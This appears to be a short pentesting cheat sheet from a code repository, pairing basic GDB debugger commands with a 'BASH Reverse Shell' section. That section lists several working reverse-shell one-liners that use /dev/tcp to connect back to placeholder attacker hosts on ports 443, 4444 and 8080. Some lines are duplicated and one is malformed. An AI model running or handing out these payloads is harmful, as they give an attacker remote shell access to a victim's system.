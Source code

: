 ### GDB Debugger Commands

```
# Setting Breakpoint
break *_start

# Execute Next Instruction
next
step
n
s

# Continue Execution
continue
c

# Data
checking 'REGISTERS' and 'MEMORY'

# Display Register Values: (Decimal,Binary,Hex)
print /d –> Decimal
print /t –> Binary
print /x –> Hex
O/P :
(gdb) print /d $eax
$17 = 13
(gdb) print /t $eax
$18 = 1101
(gdb) print /x $eax
$19 = 0xd
(gdb)

# Display values of specific memory locations
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
```

### BASH Reverse Shell

```
bash -i >& /dev/tcp/X.X.X.X/443 0>&1

exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444

cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done

/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
```
